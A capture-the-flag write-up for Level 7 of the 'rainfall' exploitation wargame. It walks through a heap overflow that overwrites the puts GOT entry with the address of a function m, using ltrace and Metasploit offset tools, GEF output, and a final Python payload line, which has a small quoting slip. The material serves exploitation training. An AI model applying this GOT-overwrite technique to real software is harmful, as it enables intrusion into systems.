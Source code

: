 # Level 7


Another heap overflow challenge, this time we need to reach the second strcpy to overwrite the address of the destination buffer with the GOT address of puts and the source buffer with the address of the function m.
```
┌──(kali㉿kali)-[~/rainfall]
└─$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
__libc_start_main(0x8048521, 2, 0xff82c904, 0x8048610 <unfinished ...>
malloc(8)                                      = 0x93031a0
malloc(8)                                      = 0x93031b0
malloc(8)                                      = 0x93031c0
malloc(8)                                      = 0x93031d0
strcpy(0x93031b0, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x93031b0
strcpy(0x37614136, nil <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Using the pattern_create and pattern_offset tools from metasploit we can find the offset to reach the second strcpy.


```
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 32
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
                                                                             
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 32 -q 0x37614136
[*] Exact match at offset 20
```

The offset is 20, so we need to write 20 bytes to reach the second strcpy.


```
gef➤  got
──────────────────────────────────────────────────────────────── /home/kali/rainfall/level7 ────────────────────────────────────────────────────────────────

GOT protection: No RelRO | GOT functions: 9
 
[0x8049914] printf@GLIBC_2.0  →  0x80483b6
[0x8049918] fgets@GLIBC_2.0  →  0x80483c6
[0x804991c] time@GLIBC_2.0  →  0x80483d6
[0x8049920] strcpy@GLIBC_2.0  →  0xf7cadc20
[0x8049924] malloc@GLIBC_2.0  →  0xf7c9a960
[0x8049928] puts@GLIBC_2.0  →  0x8048406
[0x804992c] __gmon_start__  →  0x8048416
[0x8049930] __libc_start_main@GLIBC_2.0  →  0xf7c23ca0
[0x8049934] fopen@GLIBC_2.1  →  0x8048436
gef➤  p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
gef➤  
```

The address of the function m is 0x80484f4 and the address of the GOT entry of puts is 0x8049928. We can use the following payload to overwrite the address of the destination buffer with the address of the GOT entry of puts and the source buffer with the address of the function m.

```
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08" ) $(python -c 'print "\xf4\x84\x04\x08"')
```


